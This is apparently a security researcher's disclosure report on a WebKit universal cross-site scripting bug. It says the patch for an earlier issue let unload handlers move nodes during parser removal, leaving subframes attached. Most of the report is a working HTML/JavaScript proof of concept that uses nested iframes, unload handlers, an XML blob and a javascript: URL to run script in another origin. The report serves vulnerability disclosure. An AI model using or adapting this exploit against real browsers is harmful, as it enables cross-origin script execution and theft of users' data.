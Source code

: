 # UXSS: the patch of #1110 made another bug

### Reported by <lokihardt@google.com>, Feb 16 2017

Here's the patch of #1110.
https://trac.webkit.org/changeset/212218/trunk/Source/WebCore/dom/ContainerNode.cpp

```cpp
void ContainerNode::parserRemoveChild(Node& oldChild)
{
    disconnectSubframesIfNeeded(*this, DescendantsOnly); <<---- (a)
    ...
}
```

(a) was added for the fix. But in |disconnectSubframesIfNeeded|, which fires unload event handlers, |oldChild|'s parent may be replaced. As a result, subframes of |oldChild| will be not detached.

PoC:

```html
<body>
    <div>
        <b>
            <p>
                <script>
                d = document.querySelector('div');
                p = document.querySelector('p');
                p.parentElement.appendChild(document.createElement('iframe')).contentWindow.onunload = () => {
                    document.body.appendChild(p);
                    d.remove();

                    f = p.appendChild(document.createElement('iframe'));
                    f.onload = () => {
                        f.onload = null;

                        document.documentElement.innerHTML = '';

                        f.src = 'javascript:alert(location)';

                        let xml = `
<svg xmlns="http://www.w3.org/2000/svg">
<script>
document.documentElement.appendChild(document.createElementNS('http://www.w3.org/1999/xhtml', 'iframe')).contentWindow.onunload = () => {
    document.documentElement.appendChild(parent.f.parentElement.parentElement.parentElement);
};
</sc` + `ript>
<element a="1" a="2" />
</svg>`;

                        let tmp = document.documentElement.appendChild(document.createElement('iframe'));
                        tmp.src = URL.createObjectURL(new Blob([xml], {type: 'text/xml'}));
                    };
                    f.src = 'https://abc.xyz/';
                };
                </script>
            </b>
        </p>
    </div>
</body>
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1132
